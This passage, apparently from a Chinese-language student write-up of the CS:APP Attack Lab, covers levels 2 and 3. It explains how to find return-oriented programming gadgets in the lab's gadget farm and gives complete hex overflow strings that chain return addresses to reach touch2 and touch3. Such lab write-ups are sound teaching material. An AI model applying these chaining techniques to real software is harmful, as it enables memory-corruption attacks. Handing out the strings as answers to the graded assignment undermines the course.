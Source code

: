 仔细找了半天并没有发现有可以直接把值赋给`%rdi`的，但是我们找到了这样一个函数：

```s
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3    
```

中间有一段 `48 89 c7 c3` 这正好是`%rax`的值赋值给`%rdi`，并且`c3`代表`ret`刚好就是返回，我们可以在这后面写上`touch2`开始的地址。

接着找有没有给`%rax`赋值的语句，结果发现：

```s
00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	retq   
```

注意到上面这个函数中，有一段 `58 90 c3`，是一个`popq %rax`指令，于是答案就出来了。

```
61 61 61 61 61 61 61 61
61 61 61 61 61 61 61 61
61 61 61 61 61 61 61 61
61 61 61 61 61 61 61 61
61 61 61 61 61 61 61 61
cc 19 40 00 00 00 00 00 # 进入58 90 c3的地方
fa 97 b9 59 00 00 00 00 # cookie的值，由上面的语句被压入栈中
a2 19 40 00 00 00 00 00 # 进入48 89 c7 c3的地方
ec 17 40 00 00 00 00 00 # touch2开始的地址
```

当然，这种类型的题目答案是不唯一的。

### level 3

同样是要执行`touch3`但是这一次我们不能直接把字符串随便放在栈中，因为我们拿不到准确的地址。但是，虽然地址的值在变，但是相对的位置是不会变的，这就为我们找到了突破口。我们应该设置一个偏移量，利用当前`%rsp`的值加上偏移量来获取字符串。

理一理思路：

* 首先应该是拿到现在`%rsp`的地址，用作找到字符串
* 把这个地址加上偏移量，这里是`0x48`，刚好用到`add_xy`函数
* 想办法把上面的那个值放到`%rdi`中
* 跟上一个`ret`指令，返回`touch3`的地址
* 存放字符串，方便起见我们放到了最后

实际操作的时候，第三步是需要中转的，因为gadget farm中提供的代码是有限的，利用其他的寄存器中转，来最终将值放到`%rdi`中。

答案如下，中间的过程就不在详细解释了，方法和上一关一样的，在工具中慢慢找能用的代码吧。

```
61 61 61 61 61 61 61 61
61 61 61 61 61 61 61 61
61 61 61 61 61 61 61 61
61 61 61 61 61 61 61 61
61 61 61 61 61 61 61 61
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
cc 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00 # 偏移量72，这个需要我们计算好
20 1a 40 00 00 00 00 00
34 1a 40 00 00 00 00 00
27 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00 # touch3的地址
35 39 62 39 39 37 66 61 # cookie字符串
00
```
